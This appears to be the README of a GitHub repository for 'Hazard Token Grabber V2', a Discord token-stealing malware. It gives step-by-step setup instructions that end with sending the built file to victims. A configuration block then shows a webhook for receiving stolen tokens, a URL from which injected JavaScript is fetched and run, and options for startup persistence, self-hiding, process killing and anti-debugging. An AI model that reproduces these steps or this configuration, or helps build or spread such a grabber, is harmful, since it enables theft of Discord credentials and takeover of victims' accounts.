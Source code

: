 ```
```

## <img src="https://raw.githubusercontent.com/trhacknon/images/master/Hazard-Token-Grabber-V2/info.png">

---

## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V2

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [main.py](https://github.com/Rdimo/Hazard-Token-Grabber-V2/blob/master/main.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. Double Click `setup.bat` and allow it to finish.
5. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/Rdimo/Hazard-Token-Grabber-V2/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js",
    # if True, it will ping @everyone when someone ran Hazard v2
    'ping_on_run': False,
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
    # this list of programs will be killed if hazard detects that any of these are running, you can add more if you want
    'blackListedPrograms':
    [
      ...
    ]

}
```

---